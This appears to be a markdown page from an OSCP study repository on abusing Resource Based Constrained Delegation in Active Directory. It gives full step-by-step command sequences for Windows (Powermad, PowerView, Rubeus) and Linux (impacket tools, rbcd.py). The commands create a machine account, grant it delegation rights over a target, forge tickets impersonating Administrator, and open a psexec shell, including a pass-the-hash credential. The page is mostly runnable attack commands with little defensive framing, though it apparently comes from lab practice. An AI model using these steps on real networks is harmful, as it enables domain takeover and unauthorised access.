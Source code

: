 # Resource Based Constrained Delegation
WUT IS DIS?:
TL;DR
If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. 
For example we can impersonate Domain Administrator and have complete access.

## Exploit on Windows

Tools we are going to use:
PowerView.ps1
Powermad.ps1
Rubeus.exe

```bash
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'

#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```

This won't work locally so first copy and paste base64 on kali linux 

![image](https://github.com/nuricheun/OSCP/assets/14031269/558fc1b8-7a19-4b01-bbfc-5da6f262a60c)

```bash
# I just copied and pasted base64 into a file named base
mousepad base
# Decoded it and save it as ticket.kirbi                                                                                                                                                              
cat base | base64 -d > ticket.kirbi
# Convert it to ccache
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache  
psexec.py -k -no-pass resourced.local/administrator@resourcedc.resourced.local -dc-ip 192.168.201.175
```

## Exploit on Linux

Tools we are going to use:
impacket-addcomputer
rbcd.py
impacket-getST
impacket-psexec

```bash
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
python3 rbcd.py -dc-ip 192.168.x.x -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.x.x
export KRB5CCNAME=./Administrator.ccache
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.x.x
```

